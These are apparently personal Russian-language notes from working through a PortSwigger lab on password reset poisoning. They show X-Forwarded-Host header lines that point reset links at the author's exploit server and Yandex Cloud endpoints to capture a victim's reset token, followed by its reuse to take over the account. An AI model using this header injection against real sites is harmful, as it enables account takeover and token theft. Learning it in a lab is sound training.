






https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-poisoning-via-middleware

лаба с уязвимостью при сбросе пароля

видимо мы будем рассылать на email врдоносные ссылки!

carlos - цель, он будет нажимать на все ссылки в письмах.(условия лабы)

нужно украсть акк карлоса

мой акк = wiener:peter

---------
**Суть атаки "Password Reset Poisoning":**

1. **Цель**: Украсть токен сброса пароля жертвы (Carlos).
    
2. **Механизм**: Заставить уязвимое приложение вставить **ваш контролируемый домен** в ссылку для сброса пароля, которая отправляется жертве по почте.
    
3. **Инструмент**: Заголовок `X-Forwarded-Host`. Приложение слепо доверяет ему и использует для построения ссылки.
    
4. **Результат**: Если жертва (которая "кликает на все ссылки") перейдёт по письму, её браузер отправит **GET-запрос с токеном на ваш сервер**. Вы перехватываете токен и используете его для смены её пароля.

---

вот оригинальный запрос

поменял на пост и добавил тело

в отличии от предыдущей лабы здесь запрос смены пароля происходит через токен GET /forgot-password?temp-forgot-password-token=q20ow5km24n2bvj89teh3ldwcwphny48 HTTP/2

и просто так подставить значение ника чужого уже не получится подставить сюда.

------

q20ow5km24n2bvj89teh3ldwcwphny48
этот токен мы впервые видим когда нам пришло письмо на смену пароля!
и этот токен является идент при смене пароля, система по этому токену узнает кому мы меняем пароль!

и еще есть токен сессии!

само задание намекает , что нужно отправить карлосу в письме ссылку какую-то по которой если он перейдет то это приведет к сливу пароля его, либо к установке нового пароля автоматически... 🤔

то есть, возможно, нужно переделать ссылку эту
это ссылка которая приходит на почту для смены пароля:
`https://0a9d0032041caa4281ad48b200e70041.web-security-academy.net/forgot-password?temp-forgot-password-token=q20ow5km24n2bvj89teh3ldwcwphny48`

на такую, на которую бы нажал карлос и потерял бы пароль..

но все что тут есть это токен... мой токен.. q20ow5km24n2bvj89teh3ldwcwphny48

-----

формы отправки карлосу смс - нет!

я выяснил что если отправить запрос на восстановление пароля, то на указанный адрес прийдет письмо с токеном, этот токен если украсть - то можно будет его использовать в форме для смены пароля именно этого юзера кторому письмо пришло. Но как мне заполучить этот токен, он еще и живет пару минут всего.

----

#### короче, я посмотрел их решение (видео), там они делают ровно то что я и говорил выше, они отправляют карлосу письмо со сменой пароля, затем, внимание, КАКИМ_ТО СПЕЦ ПО перехватывают его письмо и берут от туда токен, и подставляют токен в пост запрос на смену пароля. и меняют пароль. 

#### могу предположить что их спец ПО - это типо вирус на устройстве или перехват через Wi-Fi... или краденный телефон.. или приложение или какой-то сервис который перехватывает письма.

#### **`X-Forwarded-Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net

подставили это X-Forwarded-Host в

##### http:// я убрал потом, так как запрос был невалидным сразу, значил там, внутри, сервер сам создавал ссылку для смены пароля!

добавил в пост запросе дополнительный параметр 
X-Forwarded-Host: functions.yandexcloud.net/d4eehe74dgv6ukpc1q6t
этот параметр должен отправить каким-то образом токены не только на почту юзеру каросу но и на мой сервер (буду изучать это) 

https://0aba0053031eb6768012038a00b50047.web-security-academy.net/forgot-password?temp-forgot-password-token=gs3xbwxhbvbxme24pcm7uxfrgj8r8me4

перехватил токен = 12qhlj0dra053uj7zsy3xusmfj2v7ocv 

поменял ссылку на смену пароля поставив новый токен в нее!

https://0aba0053031eb6768012038a00b50047.web-security-academy.net/forgot-password?temp-forgot-password-token=12qhlj0dra053uj7zsy3xusmfj2v7ocv 

X-Forwarded-Host: d5dkc45f7203ogl776l0.z7jmlavt.apigw.yandexcloud.net    //через апи шлюз

самое интересное - что моя функция не срабатывала
X-Forwarded-Host: functions.yandexcloud.net/d4eehe74dgv6ukpc1q6t
ничего не приходило, то есть не было перехода по ссылке!

также я пробовал X-Forwarded-Host: d5dkc45f7203ogl776l0.z7jmlavt.apigw.yandexcloud.net    //через апи шлюз
но тоже тишина!

------

а вот спец ссылка от BURP exploit-0a01005803a1b66180b6025601860057.exploit-server.net 
работала исправно! что не удивительно, видимо они спец блокировали остальные домены.

------

# суть !

есть мои лог+пароль
есть ник цели
нужно украсть пароль цели

цель лабы - украсть пароль жертвы через "смену пароля"

разведка: определил что при нажатии кнопки для смены пароля - формируется спец токен смены пар, который сервером включается внутрь ссылки для смены пароля, данная ссылка отправляется жертве на email

я понял,  что нужно как то достать этот токен: который приходит на почту юзеру!

и оказывается, можно вот так подставить заголовок==X-Forwarded-Host: аддрес мой сервер==, который слушает, то этот мой адресс подставится в ссылку в письмо которое прийдет жертве, и если жертва нажмет на письмо - тогда сработает моя ссылка которая вернет мне токен, то есть сервер возьмет почемуто мой параметр X-Forwarded-Host: и втсавит его как путь в эту ссылку https://0aba0053031eb6768012038a00b50047.web-security-academy.net/forgot-password?temp-forgot-password-token=gs3xbwxhbvbxme24pcm7uxfrgj8r8me4 
и потом подствит токен нужный, и если чел нажал на такую ссылку - тогда токен сливается мне, а чел получает нерабочую ссылку на смену пароля! 

а далее я беру данный токен и ссылку для смены пароля и заменяю токен на нужный, и могу сменить пароль для чужого юзера!

------

X-Forwarded-Host: d5dkc45f7203ogl776l0.z7jmlavt.apigw.yandexcloud.net   мой шлюз

 functions.yandexcloud.net/d4eehe74dgv6ukpc1q6t моя функция

------
мои функции не срабатывают
